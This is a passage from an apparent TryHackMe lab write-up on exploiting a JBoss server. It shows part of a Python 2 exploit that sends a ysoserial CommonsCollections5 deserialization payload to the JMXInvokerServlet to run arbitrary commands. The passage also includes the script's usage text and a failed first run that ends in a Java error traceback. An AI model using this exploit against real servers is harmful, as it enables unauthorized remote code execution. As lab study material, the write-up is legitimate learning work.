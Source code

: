 ```python

print '[*] Target IP: {}'.format(ip)
print '[*] Target PORT: {}'.format(port)

gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections5', args.command])

r = requests.post('{}://{}:{}/invoker/JMXInvokerServlet'.format(args.proto, ip, port), verify=False, data=gadget)

if r.status_code == 200:
    print '[+] Command executed successfully'
```

First of all, note that the file was written by `python2` so it could not be executed by `python3` until you manually fix the file to the `python3` format. Type `-h` to view the use of the file

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ python2 exploit.py -h                                                               
usage: exploit.py [-h] [--proto {http,https}] [--ysoserial-path PATH]
                  target command

positional arguments:
  target                Target IP
  command               Command to run on target

optional arguments:
  -h, --help            show this help message and exit
  --proto {http,https}  Send exploit over http or https (default: http)
  --ysoserial-path PATH
                        Path to ysoserial JAR (default: tries current and
                        previous directory)
```

At the first time executing, it cause an error like this:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ python2 exploit.py --proto http --ysoserial-path ysoserial.jar 10.10.125.214:8080 id
[*] Target IP: 10.10.125.214
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
com.nqzero.permit.Permit$InitializationFailed: initialization failed, perhaps you're running with a security manager
        at com.nqzero.permit.Permit.setAccessible(Permit.java:22)
        at ysoserial.payloads.util.Reflections.setAccessible(Reflections.java:17)
        at ysoserial.payloads.CommonsCollections5.getObject(CommonsCollections5.java:83)
        at ysoserial.payloads.CommonsCollections5.getObject(CommonsCollections5.java:51)
        at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
Caused by: com.nqzero.permit.Permit$FieldNotFound: field "override" not found
        at com.nqzero.permit.Permit.<init>(Permit.java:222)
        at com.nqzero.permit.Permit.build(Permit.java:117)
        at com.nqzero.permit.Permit.<clinit>(Permit.java:16)
        ... 4 more
Traceback (most recent call last):
  File "exploit.py", line 63, in <module>
    gadget = check_output(['java', '-jar', ysoserial_path, 'CommonsCollections5', args.command])
  File "/usr/lib/python2.7/subprocess.py", line 223, in check_output
    raise CalledProcessError(retcode, cmd, output=output)
subprocess.CalledProcessError: Command '['java', '-jar', 'ysoserial.jar', 'CommonsCollections5', 'id']' returned non-zero exit status 70
```
